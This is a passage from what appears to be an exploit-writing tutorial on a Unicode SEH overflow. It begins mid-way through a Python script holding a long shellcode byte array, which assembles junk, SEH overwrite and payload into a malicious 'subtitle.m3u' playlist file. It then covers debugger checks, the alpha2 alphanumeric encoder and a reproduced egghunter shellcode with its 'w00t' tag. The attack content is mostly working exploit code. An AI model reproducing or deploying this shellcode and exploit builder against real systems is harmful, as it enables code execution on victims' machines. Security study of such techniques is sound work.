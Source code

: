 > "\\xc1\\xb3\\x8c\\x31\\x4b\\x56\\xbd\\x63\\x2f\\x12\\xec\\xb3\\x3b\\x76\\x1d"
> "\\x38\\x69\\x63\\x96\\x4c\\xa6\\x84\\x1f\\xfa\\x90\\xab\\xa0\\xcb\\x1c\\x67"
> "\\x62\\x4a\\xe1\\x7a\\xb7\\xac\\xd8\\xb4\\xca\\xad\\x1d\\xa8\\x25\\xff\\xf6"
> "\\xa6\\x94\\xef\\x73\\xfa\\x24\\x0e\\x54\\x70\\x14\\x68\\xd1\\x47\\xe1\\xc2"
> "\\xd8\\x97\\x5a\\x59\\x92\\x0f\\xd0\\x05\\x03\\x31\\x35\\x56\\x7f\\x78\\x32"
> "\\xac\\x0b\\x7b\\x92\\xfd\\xf4\\x4d\\xda\\x51\\xcb\\x61\\xd7\\xa8\\x0b\\x45"
> "\\x08\\xdf\\x67\\xb5\\xb5\\xe7\\xb3\\xc7\\x61\\x62\\x26\\x6f\\xe1\\xd4\\x82"
> "\\x91\\x26\\x82\\x41\\x9d\\x83\\xc1\\x0e\\x82\\x12\\x06\\x25\\xbe\\x9f\\xa9"
> "\\xea\\x36\\xdb\\x8d\\x2e\\x12\\xbf\\xac\\x77\\xfe\\x6e\\xd1\\x68\\xa6\\xcf"
> "\\x77\\xe2\\x45\\x1b\\x01\\xa9\\x01\\xe8\\x3f\\x52\\xd2\\x66\\x48\\x21\\xe0"
> "\\x29\\xe2\\xad\\x48\\xa1\\x2c\\x29\\xae\\x98\\x88\\xa5\\x51\\x23\\xe8\\xec"
> "\\x95\\x77\\xb8\\x86\\x3c\\xf8\\x53\\x57\\xc0\\x2d\\xf3\\x07\\x6e\\x9e\\xb3"
> "\\xf7\\xce\\x4e\\x5b\\x12\\xc1\\xb1\\x7b\\x1d\\x0b\\xda\\x4a\\x39\\xe7\\x8d"
> "\\xae\\xbd\\x19\\x12\\x27\\x5b\\x73\\xba\\x61\\xf3\\xec\\x78\\x56\\xcc\\x8b"
> "\\x83\\xbd\\x60\\x03\\x14\\x8a\\x6e\\x93\\x1b\\x0b\\xa5\\xb7\\xb0\\xa4\\x2e"
> "\\x4c\\xdb\\x71\\x4e\\x53\\xf6\\xd2\\x07\\xc4\\x8c\\xb2\\x6a\\x74\\x90\\x9f"
> "\\x1f\\x76\\x04\\x1b\\xb6\\x21\\xb0\\x21\\xef\\x06\\x1f\\xda\\xda\\x1c\\x96"
> "\\x4e\\xa5\\x4a\\xd7\\x9e\\x25\\x8b\\x81\\xf4\\x25\\xe3\\x75\\xac\\x75\\x16"
> "\\x7a\\x79\\xea\\x8b\\xef\\x81\\x5b\\x7f\\xa7\\xe9\\x61\\xa6\\x8f\\xb6\\x9a"
> "\\x8d\\x11\\x8b\\x4c\\xe8\\x97\\xfd\\xfa\\x18\\x54"
> )
> junk2  =  "\\x01\\x02\\x03\\x04\\x05\\x06\\x07\\x08\\x09\\x0b\\x0d\\x0e"
> exploit = junk + nseh + seh + adjust + buffer + junk2
> handler = open ("subtitle.m3u", "w")
> handler.write(exploit)
> handler.close()


 Please note that the reason we don't encode the payload in Unicode is because you can actually find a copy of the payload that hasn't been converted into Unicode in memory. To check this do:


*   View - Memory
*   Click on the first entry starting with the lowest number.
*   Right click and click search.
*   Enter a copy of some of the bytes from your code.
*   Observe the fact that Immunity finds a copy of your code unconverted in memory.




### Generating the Unicode Egghunter + Tag

To generate the last section of this exploit we will need to use skylined's alpha2 alphanumeric shellcode encoder. You can find a copy here: [alpha2.c](https://skypher.com/wiki/index.php/Www.edup.tudelft.nl/~bjwever/src/alpha2.c).



We also need an egghunter. This was obtained from one of corelanc0d3r's awesome tutorials on egghunters. The code is recreated below (taken from [https://www.corelan.be/index.php/2010/01/09/exploit-writing-tutorial-part-8-win32-egg-hunting/](https://www.corelan.be/index.php/2010/01/09/exploit-writing-tutorial-part-8-win32-egg-hunting/))



> ```
> "\\x66\\x81\\xCA\\xFF\\x0F\\x42\\x52\\x6A\\**x02**\\x58\\xCD\\x2E\\x3C\\x05\\x5A\\x74\\xEF\\xB8".
> "\\x77\\x30\\x30\\x74". # this is the marker/tag: w00t
> "\\x8B\\xFA\\xAF\\x75\\xEA\\xAF\\x75\\xE7\\xFF\\xE7";
> ```
